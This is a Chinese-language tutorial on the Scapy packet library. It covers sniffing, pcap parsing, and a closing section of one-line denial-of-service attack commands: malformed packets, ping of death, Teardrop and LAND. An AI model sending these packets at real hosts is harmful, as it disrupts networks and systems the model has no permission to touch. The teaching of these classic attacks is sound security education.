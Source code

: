 # 1. Scapy 库



## 1.1 什么是 Scapy 库

Scapy是一个Python程序，使用户能够发送，嗅探和剖析并伪造网络数据包。此功能允许构建可以探测，扫描或攻击网络的工具。



## 1.2 Scapy 可以用来进行接口数据包的嗅探并在嗅探的过程之中进行分析



**主要是 <font color="red">sniff 函数 </font>，参数列表如下：**

| 序号 | 名称    | 含义                                                         |
| ---- | ------- | ------------------------------------------------------------ |
| 1    | count   | 嗅探数据包的个数                                             |
| 2    | Prn     | 我们可传递一个函数，该函数在嗅探每个数据包时执行。 这允许我们对每个嗅探的数据包执行一些自定义操作。 |
| 3    | iface   | 对应的英文就是interface即我们监听的是哪一个接口              |
| 4    | timeout | 超时时间，如果超过这个时间还没有收集到数据包的               |
| 5    | filter  | 数据包的过滤器，使用的是 tcpdump/libpcap 的语法格式          |
| 6    | lfilter | 自定义的过滤器，可以是一个lambda表达式，通过的才进行收集     |

**示例代码：**

```python
#! /usr/bin/env python
from scapy.all import *
from scapy.layers.inet import TCP, UDP
from scapy.layers.l2 import ARP


def printPacket(pkt):
    if pkt.haslayer(TCP):
        print(pkt[TCP].dport,
              pkt[TCP].sport,
              pkt[TCP].flags,
              pkt[TCP].seq,
              pkt[TCP].ack,
              pkt[TCP].window,
              pkt[TCP].options)
    elif pkt.haslayer(UDP):
        print(pkt[UDP].dport,
              pkt[UDP].sport)
    else:
        print(pkt.summary())


if __name__ == "__main__":
    sniff(prn=printPacket, count=10, iface='en0')
# 结果
'''
5353 5353
5353 5353
5353 5353
5353 5353
443 49463 PA 2532884855 2037630229 8020 []
49463 443 PA 2037630229 2532884919 304 []
443 49463 A 2532884919 2037630305 8019 []
5353 5353
5353 5353
5353 5353
'''
```



## 1.3 Scapy 可以用来进行

**主要是 <font color="red">rdpcap </font>函数** 

```python
from scapy.all import *
from scapy.layers.inet import TCP, IP


def packet_handler(pkt):
    # if packet has 802.11 layer, and type of packet is Data frame
    if pkt.haslayer(TCP):
        print("源端口:", pkt[TCP].dport,
              "目的端口:", pkt[TCP].sport,
              "标志位:", pkt[TCP].flags,
              "序列号:", pkt[TCP].seq,
              "确认号:", pkt[TCP].ack,
              "窗口:", pkt[TCP].window,
              "选项:", pkt[TCP].options)
    if pkt.haslayer(IP):
        print("源地址:", pkt[IP].src)
        print("目的地址:", pkt[IP].dst)


if __name__ == "__main__":
    data = "test.pcap"
    packet_list = rdpcap(data)
    count = 0
    for packet in packet_list:
        count += 1
        print("第", count, "个包")
        print("--------------------")
        packet_handler(packet)
        print("--------------------")

# 结果
'''
第 1 个包
--------------------
源端口: 50425 目的端口: 80 标志位: R 序列号: 3904797095 确认号: 0 窗口: 0 选项: []
源地址: 223.109.81.42
目的地址: 192.168.10.110
--------------------
第 2 个包
--------------------
源端口: 50314 目的端口: 443 标志位: FA 序列号: 412968363 确认号: 2213565471 窗口: 83 选项: []
源地址: 120.221.155.250
目的地址: 192.168.10.110
--------------------
第 3 个包
--------------------
源端口: 50314 目的端口: 443 标志位: PA 序列号: 412968286 确认号: 2213565471 窗口: 83 选项: []
源地址: 120.221.155.250
目的地址: 192.168.10.110
--------------------
第 4 个包
--------------------
源端口: 50314 目的端口: 443 标志位: PA 序列号: 412968332 确认号: 2213565471 窗口: 83 选项: []
源地址: 120.221.155.250
目的地址: 192.168.10.110
--------------------
'''
```



## 1.4 scapy 可以简单的进行经典的攻击的模拟



### 1.4.1 发送格式错误的数据包

```python
send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())
```



### 1.4.2 ping of death 攻击

```python
send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )
```



### 1.4.3 Teardrop aka Nestea 攻击

```python
send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
send(IP(dst=target, id=42, frag=48)/("X"*116))
send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))
```



### 1.4.4 局域网拒绝服务攻击 源和目的相同

```python
send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```